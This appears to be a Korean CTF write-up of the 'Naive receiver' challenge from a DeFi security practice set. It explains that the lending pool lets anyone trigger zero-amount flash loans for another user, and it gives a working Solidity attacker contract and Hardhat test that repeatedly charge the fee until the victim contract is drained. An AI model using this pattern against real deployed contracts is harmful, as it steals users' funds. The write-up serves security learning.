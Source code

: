 flashloan 수행 시 poolBalance를 다시 업데이트할 필요 있음.

# Challenge #2 - **Naive receiver**

### 설명

*There’s a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.*

*You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.*

*Drain all ETH funds from the user’s contract. Doing it in a single transaction is a big plus ;)*

### 목표

유저 컨트랙트의 토큰을 다 터는게 목표. 공격 컨트랙트를 작성하여 해보기.

### 분석

flashloan 함수는 receiver contract가 아니더라도 호출 가능.

flashloan 함수는 0개의 토큰도 빌릴 수 있음.

### 공격

receiver로 하여금 0개의 토큰을 빌리도록 flashloan을 반복 이행하여 수수료로 다 털어 잔고를 0으로 만들기.

테스트 스크립트에서 flashloan을 단순 반복 호출할 수 있으나 컨트랙트로 만들기를 권장했으니 해보기.

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface INaiveReceiverLenderPool {
    function fixedFee() external pure returns (uint256);

    function flashLoan(address borrower, uint256 borrowAmount) external;
}

contract NaiveReceiverAttacker {
    function attack(INaiveReceiverLenderPool pool, address payable receiver)
        public
    {
        uint256 FIXED_FEE = pool.fixedFee();
        while (receiver.balance >= FIXED_FEE) {
            pool.flashLoan(receiver, 0);
        }
    }
}
```

```solidity
it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE */
    const NaiveAttacker = await ethers.getContractFactory(
      "NaiveReceiverAttacker",
      attacker
    );
    this.attackerContract = await NaiveAttacker.deploy();
    await this.attackerContract.attack(
      this.pool.address,
      this.receiver.address
    );
  });
```